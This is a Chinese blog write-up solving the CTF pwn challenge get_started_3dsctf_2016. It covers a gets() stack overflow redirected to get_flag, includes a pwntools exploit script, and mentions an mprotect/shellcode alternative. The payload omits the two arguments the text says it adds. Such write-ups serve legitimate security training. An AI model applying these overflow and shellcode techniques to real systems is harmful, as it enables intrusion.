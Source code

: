 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      get_started_3dsctf_2016 WriteUp				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-11-10 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-10.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - CTF
    - PWN
---
```




# get_started_3dsctf_2016 WriteUp

## 考点

- 对栈溢出函数带参数的溢出理解

## 解题内容

1. 使用`checksec`工具查看基本信息：

   ```shell
   ❯ ~/.local/bin/checksec ./get_started_3dsctf_2016
   [*] '/home/bronya/Documents/ctf/pwn/get_started_3dsctf_2016/get_started_3dsctf_2016'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

   可以看到为32位程序，只开了nx防护。

2. ida工具打开程序，反编译，有主要函数`main`，`get_flag`

   `main`：

   ![main](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/main.png)

   `get_flag`：

   ![get_flag](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/get_flag.png)

   存在漏洞点为`main`函数中的`gets(v4)`，因此可以通过此进行栈溢出将返回地址改为`get_flag`函数地址，获取flag

3. 在本地测试成功，但是进行远程测试出现问题，发现远程程序崩溃了，应该是因为栈的数据被破坏，导致程序无法完整运行：

   ![远程-有问题](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/远程-有问题.png)

4. 考虑在`get_flag`后加上`exit`函数以及`get_flag`所需的两个参数，使其正常完成并退出。

   构造python脚本如下：

   ```python
   from pwn import *
   
   context(arch="i386", log_level="debug")
   p = process("./get_started_3dsctf_2016")
   # p = remote("node4.buuoj.cn", 25523)
   
   get_flag = 0x080489B8
   exit = 0x0804E6A0
   retn = 0x08048A40
   a1 = 0x308CD64F
   a2 = 0x195719D1
   
   # gdb.attach(p, 'b *0x8048A3B')
   payload = flat(b'a'*56, get_flag, exit)
   p.sendline(payload)
   p.interactive()
   ```

5. 成功获取flag

   ![results](/img/posts/2023-11-10-get_started_3dsctf_2016_WriteUp/images/results.png)

6. 另外还有一种思路是程序中存在mprotect函数，可以修改程序中某一段地址的读写执行权限，因此可以将某段bss地址修改，并写入shellcode，令程序跳转到bss地址即可拿到shell。

   